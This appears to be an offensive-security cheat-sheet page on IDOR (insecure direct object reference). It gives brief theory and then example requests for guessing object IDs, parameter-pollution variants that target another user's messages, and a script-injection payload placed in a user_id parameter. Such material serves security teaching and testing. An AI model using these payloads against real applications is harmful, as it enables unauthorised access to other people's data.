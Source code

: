 # IDOR

## Theory

Insecure Direct Object Reference (called IDOR from here on) occurs when an application exposes a reference to an internal implementation object. In this way, it reveals the actual identifier and format/pattern used of the element on the storage backend side. The most common example of this (though not limited to this one) is a record identifier in a storage system (database, file system, etc.).

## Practice

### Basic payloads

```shell
GET /api_v1/messages?conversation_id=SOME_RANDOM_ID
GET /api_v1/messages?FUZZ=ANOTHER_USERS_ID # Parameters fuzzing
https://insecure-website.com/customer_account?customer_number=RANDOM_NUMBER
```

### HTTP Parameter Pollution (HPP)

HPP vulnerabilities (supplying multiple values for the same parameter) can also lead to IDOR. Applications may not anticipate that the user will submit multiple values for the same parameter and in doing so, may be able to bypass the access control set on the endpoint.

```shell
GET /api_v1/messages?user_id=ANOTHER_USERS_ID
GET /api_v1/messages?user_id=YOUR_USER_ID&user_id=ANOTHER_USERS_ID # Try this
GET /api_v1/messages?user_id=ANOTHER_USERS_ID&user_id=YOUR_USER_ID # Or this
GET /api_v1/messages?user_ids[]=YOUR_USER_ID&user_ids[]=ANOTHER_USERS_ID # Or provide the parameters as a list.
```

### IDOR + Self XSS

If we find an IDOR, we can try to inject the victim user with a Self-XSS or even a Stored XSS:

```html
https://socialmedia.com/add_reminder?user_id=<script>alert(1)</script>
```
